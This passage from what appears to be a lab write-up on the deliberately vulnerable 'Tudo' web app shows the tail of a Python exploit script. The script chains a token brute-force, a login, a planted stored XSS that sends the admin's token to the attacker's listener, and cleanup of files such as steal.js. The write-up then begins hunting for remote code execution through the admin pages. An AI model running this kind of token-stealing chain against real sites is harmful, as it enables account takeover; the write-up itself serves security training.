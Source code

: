 ```py
    mountPhpSpray(seed1,seed2)
    # Let's bruteforce it
    sprayToken(rhost)
    # Let's login
    loginUser(rhost,username)
    # Let's plant the xss
    putXSS(rhost,lhost)
    # Get the admin token
    getToken(lhost,lport)
    # Clean up
    os.system("rm spray.php")
    os.system("rm seed_list.txt")
    os.system("rm steal.js")
    
if __name__ == '__main__':
    main()
```

Now, just change the token, and we become admin!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2006:18:37.png)

Let's hunt RCE now.

# RCE

The see three different pages in the admin section

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2006:24:52.png)

update_motd.php

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2006:25:10.png)

We see both of them in burp

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2006:26:06.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2006:26:40.png)

A normal upload folder, possible we have some kind of filters here, we will see it in the code analyse

Seems to be a greeting message and a upload file

And the import_user.php

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2006:25:41.png)

Seems that it's rendering some data here.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2006:27:35.png)
